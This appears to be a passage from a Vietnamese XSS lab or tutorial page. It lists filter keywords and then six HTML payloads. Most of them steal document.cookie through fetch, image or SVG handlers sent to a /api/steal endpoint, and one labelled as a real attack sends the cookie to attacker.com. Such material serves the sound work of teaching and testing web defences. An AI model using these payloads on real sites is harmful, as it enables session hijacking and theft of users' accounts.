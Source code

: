 -   `<script` → Script injection
-   `<img` → Image-based XSS
-   `<svg` → SVG-based XSS
-   `onerror` → Event handler XSS
-   `javascript:` → JavaScript protocol

## 🧪 Các XSS Payloads Test

### 1. Basic XSS

```html
<script>
    alert("XSS");
</script>
```

### 2. Cookie Stealing

```html
<script>
    fetch("/api/steal?cookie=" + document.cookie);
</script>
```

### 3. Image-based XSS

```html
<img src="x" onerror="fetch('/api/steal?cookie='+document.cookie)" />
```

### 4. SVG XSS

```html
<svg onload="fetch('/api/steal?cookie='+document.cookie)"></svg>
```

### 5. Obfuscated XSS

```html
<script>
    var img = new Image();
    img.src = "http://localhost:3000/api/steal?cookie=" + document.cookie;
</script>
```

### 6. External Server (Real Attack)

```html
<script>
    document.location = "http://attacker.com/steal?cookie=" + document.cookie;
</script>
```

## 🔍 Phân Tích Kỹ Thuật
